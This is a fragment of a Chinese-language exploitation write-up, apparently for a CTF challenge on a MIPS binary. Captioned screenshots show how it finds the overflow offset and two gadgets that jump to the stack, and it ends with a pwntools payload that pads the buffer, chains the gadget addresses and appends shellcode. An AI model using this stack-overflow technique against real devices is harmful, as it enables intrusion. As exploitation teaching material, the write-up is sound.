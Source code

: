 [![](assets/1705903019-7cf7a57275d274801b08aef9a3eba99c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120192730-e60e06fe-b786-1.png)  
这里是吧 sp+0x58 给 a2

[![](assets/1705903019-c49fe37de96be1224ebef2561e28de25.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120192748-f04d8bda-b786-1.png)  
这里计算一下偏移

[![](assets/1705903019-6ebdee6e09b3924b60c6e9c5c231cd10.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120192755-f4eafe84-b786-1.png)  
溢出位置： #0x0043965C | addiu $a2,$sp,0x68+var\_10 | jalr $fp  
fp 位置： #0x0040ABB8 | move $t9,$a2 | jalr $a2  
然后计算 a2 距离 buf 的偏移为 0xa0  
所以就直接写 shellcode

```plain
pl='a'*0x40+p32(0x0040ABB8)+p32(0x0043965C)
pl=pl.ljust(0xa0,'a')+shellcode
sa('Congratulation!\n',pl)
itr()
```
